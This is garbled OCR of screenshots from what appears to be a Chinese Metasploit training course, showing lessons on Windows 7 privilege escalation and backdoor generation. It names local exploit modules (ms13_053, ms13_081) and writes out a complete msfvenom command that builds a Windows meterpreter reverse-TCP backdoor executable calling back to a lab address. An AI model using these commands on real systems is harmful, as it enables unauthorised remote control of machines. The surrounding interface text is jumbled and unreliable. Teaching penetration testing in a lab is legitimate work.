 

eketang·VMware Workstation
X 编辑（E）
首页
板売模板
35．Metasploit：■权．docx
36．Metasploit．．etasploit生成后门
37．Metasplit：生成Android后门 x
hongkeketang
三文件
安全 开发工具 特色功能 Q查找
已间步·＆协作分享
✓
··
X■切
Calibri（正文）
AaBbC AaBbCcDc
AaBbCcD
AaBbCcDd 粘贴
格式期
BIU·A·xxA
标题4 HTML.. 普通（网站） 默认段... 新样式
文档助手 文字工具
壹找慧换·选择·
·
文件（F） 动作
G川 SESS
meterpreter Payload
Name
Windows 7 提权 EXIT
LHOS
exploit/windows/local/ms13_053_schlamperei LPOF
exploit/windows/local/ms13_081_track_popup_menu Exploit
PI - 0 msf5 ex Sta
[*]
[-] Exp Expcorc
[*]
msf5 exploit(windows/local 

-VMware Workstation
X 福売模板
ongkeketa ng 民■ 三文件
安全 开发工具 特色功能 Q查找
已同步·＆协作分享
✓: 宋体
A··田
AaBbC AaBbCcDc
AaBbCcD AaBbCeDd B
IU·A·XX
标题4 HTML.. 普通（网站）
文档助手 文字工具
查找？换·选择 回收站
Metasploit：使用Metasploit生成后门 文件系统
支持哪些后门
I 主文件夹
Windows 后门 Linux 后门
Java 后门 Kali Linux
amd641
PHP 后门 Android 后门 等等
生成Windows 后门
msfvenom -p windows/meterpreter/reverse_tcp 1host=192.168.152.128 lport=5555 -f exe -o/home/kali/payload.exe
88 页码：1 页面：1／2 节：1／1 设置值：21.2厘米 行：6 列：1 字数：203 拼写检查 文科校对
